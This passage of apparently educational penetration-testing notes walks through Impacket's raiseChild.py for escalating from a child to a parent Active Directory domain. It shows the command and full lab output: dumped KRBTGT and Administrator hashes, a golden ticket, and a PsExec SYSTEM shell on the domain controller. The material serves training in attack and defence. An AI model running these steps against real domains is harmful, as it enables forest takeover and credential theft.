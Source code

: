 ### Method 2 : autopwn
Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:

- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

Finally, if the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.
#### Performing the Attack with raiseChild.py
```bash
raiseChild.py -target-exec <DC-IP> <CHILD.DOMAIN.LOCAL>/<CHILD-DC-USER>

# Password:
# [*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
# [*] Forest FQDN is: INLANEFREIGHT.LOCAL
# [*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
# [*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
# [*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
# LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
# LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
# [*] Getting credentials for INLANEFREIGHT.LOCAL
# INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
# INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
# [*] Target User account name is administrator
# INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
# INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
# [*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
# [*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
# [*] Found writable share ADMIN$
# [*] Uploading file BnEGssCE.exe
# [*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
# [*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
# [*] Starting service UVNb.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.17763.107]
# (c) 2018 Microsoft Corporation. All rights reserved.
#
# C:\Windows\system32>whoami
# nt authority\system
```
The script lists out the workflow and process in a comment as follows:
```bash
#   The workflow is as follows:
#       Input:
#           1) child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'
#              The domain specified MUST be the domain FQDN.
#           2) Optionally a pathname to save the generated golden ticket (-w switch)
#           3) Optionally a target-user RID to get credentials (-targetRID switch)
#              Administrator by default.
```